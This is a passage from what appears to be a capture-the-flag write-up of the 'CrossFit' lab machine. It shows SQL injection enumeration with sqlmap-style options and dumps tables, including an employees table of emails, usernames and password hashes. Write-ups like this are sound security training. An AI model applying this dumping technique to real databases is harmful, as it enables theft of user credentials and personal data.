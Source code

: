 ```
[1 table]
+---------------------------------------+
| membership_plans                      |
+---------------------------------------+

Database: employees
[2 tables]
+---------------------------------------+
| employees                             |
| password_reset                        |
+---------------------------------------+

```

### SQLi Enumeration

#### Tables

With two methods to enumerate the database, I’ll look around at what’s there. The `membership_plans` table has the plans I found earlier (`-D crossfit -T membership_plans --dump`):

```

Database: crossfit
Table: membership_plans
[4 entries]
+----+----------+-----------+------------+---------------+
| id | name     | available | base_price | current_price |
+----+----------+-----------+------------+---------------+
| 1  | 1-month  | 1         | 99.99      | 99.99         |
| 2  | 3-months | 1         | 129.99     | 129.99        |
| 3  | 6-months | 0         | 209.99     | 189.99        |
| 4  | 1-year   | 1         | 899.99     | 859.99        |
+----+----------+-----------+------------+---------------+

```

Switching to the `employees` database, the `employees` table has four entries (`-D employees -T employees --dump`):

```

Database: employees
Table: employees
[4 entries]
+----+-----------------------------+------------------------------------------------------------------+---------------+
| id | email                       | password                                                         | username      |
+----+-----------------------------+------------------------------------------------------------------+---------------+
| 1  | david.palmer@crossfit.htb   | fff34363f4d15e958f0fb9a7c2e7cc550a5672321d54b5712cd6e4fa17cd2ac8 | administrator |
| 2  | will.smith@crossfit.htb     | 06b4daca29092671e44ef8fad8ee38783b4294d9305853027d1b48029eac0683 | wsmith        |
| 3  | maria.williams@crossfit.htb | fe46198cb29909e5dd9f61af986ca8d6b4b875337261bdaa5204f29582462a9c | mwilliams     |
| 4  | jack.parker@crossfit.htb    | 4de9923aba6554d148dbcd3369ff7c6e71841286e5106a69e250f779770b3648 | jparker       |
+----+-----------------------------+------------------------------------------------------------------+---------------+

```
